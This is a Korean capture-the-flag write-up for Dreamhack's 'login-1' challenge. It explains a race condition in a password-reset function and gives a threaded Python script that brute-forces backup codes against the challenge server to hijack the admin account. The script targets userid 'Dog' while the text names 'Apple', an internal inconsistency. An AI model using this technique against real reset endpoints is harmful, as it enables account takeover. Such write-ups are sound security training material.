 # login-1

admin 권한을 가진 계정으로 로그인하는 문제이다.

```
def forgot_password():
    if request.method == 'GET':
        return render_template('forgot.html')
    else:
        userid = request.form.get("userid")
        newpassword = request.form.get("newpassword")
        backupCode = request.form.get("backupCode", type=int)

        conn = get_db()
        cur = conn.cursor()
        user = cur.execute('SELECT * FROM user WHERE id = ?', (userid,)).fetchone()
        if user:
            # security for brute force Attack.
            time.sleep(1)

            if user['resetCount'] == MAXRESETCOUNT:
                return "<script>alert('reset Count Exceed.');history.back(-1);</script>"
```   
문제에서 주어진 소스코드를 보면 계정의 비밀번호를 재설정 할 경우 forgot_password()함수에서 backupCode를 확인하고 있다.
여기서 brute force를 막기 위해 1초의 sleep이 이루어지고 시도할 수 있는 횟수가 정해져있다.   

하지만 sleep(1) 함수 때문에 race condition이 발생될 수 있다.   
<br/>

일단 admin 권한을 가진 계정을 찾아야한다.   
/user/<int:useridx> 페이지에서 admin 권한을 가진 계정을 찾을 수 있다.   
image   
Apple 계정이 admin 권한을 가진 것을 확인했다.   
<br/>

이제 race condition 취약점을 이용해 Apple 계정의 비밀번호를 임의로 변경해주면 된다.   
```
import requests
import threading

url = 'http://host1.dreamhack.games:11408/forgot_password'

def crack(i):
    data={
         'userid': 'Dog',
         'newpassword':'1234',
         'backupCode':i
    }
    requests.post(url, data=data)
    print(data['backupCode'])

for i in range(100):
    i = str(i)
    th = threading.Thread(target=crack, args=(i,))
    th.start()
```   

Apple 계정으로 로그인 하고 /admin 페이지에 들어가면 flag를 획득할 수 있다.

